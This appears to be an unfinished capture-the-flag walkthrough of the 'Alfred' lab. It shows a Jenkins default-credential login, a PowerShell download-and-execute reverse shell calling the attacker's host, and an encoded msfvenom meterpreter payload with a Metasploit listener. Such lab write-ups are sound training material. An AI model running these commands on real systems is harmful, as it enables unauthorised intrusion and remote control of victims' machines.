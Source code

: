 ***STILL IN THE WORKS!***

Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://My_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress My_IP -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file that the remote machine will try to donwload. We can do this by typing this command on a kali machine:

```
python -m SimpleHTTPServer
```

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)

Our listener recieves a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131248468-e25aedea-532e-4088-9712-9bd282dfeede.png)

To search for the flag or any specific file we can use the following command:

```
Get-ChildItem -Path C:\ -Recurse "user.txt" -ErrorAction SilentlyContinue

-Path  → Choose the path you want
-Recurse → To recursively search subdirectories  
-ErrorAction SilentlyContinue → To ignore errors
```

![image](https://user-images.githubusercontent.com/76821053/131248549-cfdf06bb-a839-4f28-9f46-be8db0b1e6e1.png)

We can now read the flag by using “type”:

![image](https://user-images.githubusercontent.com/76821053/131248555-010718a7-d90e-4611-bc37-c3073abb3be3.png)

Now let's upgrade our shell to a meterpreter one. To do so we need to create a payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai -o payload.exe LHOST=YOUR_IP_ADDRESS LPORT=CHOOSE_A_PORT
```

![image](https://user-images.githubusercontent.com/76821053/131249292-4efa51fe-c0cf-4e8d-be24-6f5972d5d5ea.png)

In this case i created a meterpreter .exe payload encoded with shikata_ga_nai. If we check the size of the payload we can answer on of the questions of the room.

To upload this payload to the target machine we need once again to host this file in a SimpleHTTPServer:

![image](https://user-images.githubusercontent.com/76821053/131248806-8c6499d4-59d5-43bc-b641-eb9b2fa93b30.png)

From the target machine we can request it with this powershell command:

![image](https://user-images.githubusercontent.com/76821053/131248869-353d8387-5417-47f7-a09c-51b318e122e4.png)

Now that we have the payload ready we need to start a meterpreter listener. So we are going to fire up metasploit.

We need to change some parameters to match our payload, ip address and port:

```
use multi/handler  → Choose exploit, in this case a listener

set payload windows/meterpreter/reverse_tcp  →  Set the same payload used in the our msfvenom payload

set LHOST your_ip_address  →  Choose your ip address

set LPORT payload_chosen_port  → Choose the same port has the payload that we created with msfvenom

options  →  To list all the available options

run  →  To start the listener
```

![image](https://user-images.githubusercontent.com/76821053/131249057-b7e4e405-8711-4645-887c-04ef0d547e59.png)

On the target machine we just have to run the payload.exe file:

```
.\payload.exe 
```

![image](https://user-images.githubusercontent.com/76821053/131249240-10687032-47d2-4c79-a18d-dd7dc907934a.png)

Moments after we got a shell on the meterpreter session:

![image](https://user-images.githubusercontent.com/76821053/131249265-80c1e8fb-2b93-49ee-883b-9b56e565f3c6.png)







